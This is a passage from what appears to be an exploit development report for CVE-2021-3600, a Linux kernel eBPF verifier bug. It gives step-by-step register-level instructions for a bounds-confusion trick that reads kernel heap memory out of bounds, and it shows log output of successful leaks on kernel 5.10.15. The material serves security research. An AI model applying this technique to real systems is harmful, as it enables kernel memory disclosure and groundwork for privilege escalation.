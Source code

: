 \textbf{Objective}
Leverage the bounds confusion to perform out-of-bounds reads past a BPF map value boundary, leaking kernel heap data.

\textbf{Approach}

\begin{enumerate}
    \item Create a BPF array map with \texttt{value\_size = 256} bytes
    \item Lookup the map value to get \texttt{PTR\_TO\_MAP\_VALUE} in \texttt{R6}
    \item Set \texttt{R2 = oob\_offset} (target offset beyond the 256-byte boundary)
    \item Set \texttt{R3 = 0xFFFFFFFF\_00000001} via 64-bit immediate load
    \item Execute \texttt{w2 /= w3}:
    \begin{itemize}
        \item Verifier: \texttt{R2 = oob\_offset / 0xFFFFFFFF\_00000001 = 0} (within bounds)
        \item Runtime: \texttt{R3} truncated to 1, so \texttt{R2 = oob\_offset} (OOB!)
    \end{itemize}
    \item Compute \texttt{R7 = R6 + R2} (map pointer + confused index)
    \item Read \texttt{*(R7 + 0)}, verifier allows (thinks offset = 0), runtime reads OOB
    \item Exfiltrate leaked data to result map
\end{enumerate}

For each of 15 OOB offsets (256, 264, 272, ..., 368), a separate program is loaded and run.

\textbf{Results}

\begin{lstlisting}[style=log,caption={Milestone 2 output on kernel 5.10.15 (as root)}]
[*] === CVE-2021-3600 Milestone 2: OOB Read via Bounds Confusion ===
[+] Data map created (fd=3, value_size=256)
[+] Result map created (fd=4)
[*] Attempting OOB reads beyond map value (boundary at +0x100)...

  leaked[ 0] (+0x100) = 0x0000000000000000
  leaked[ 1] (+0x108) = 0x0000000000000000
  ...
  leaked[14] (+0x170) = 0x0000000000000000

  Total OOB reads: 15/15 successful
\end{lstlisting}

\textbf{Analysis:} The OOB reads return \texttt{0x0000000000000000}, zero-filled slab padding beyond the 256-byte map value. This is \textbf{different} from the map fill value (\texttt{0x4141414141414141}), confirming that the BPF program genuinely accesses memory past the map value boundary. The leaked data corresponds to the SLUB allocator's zero-initialized padding after the map value allocation, which in a more densely populated heap would contain kernel pointers and metadata from adjacent allocations.


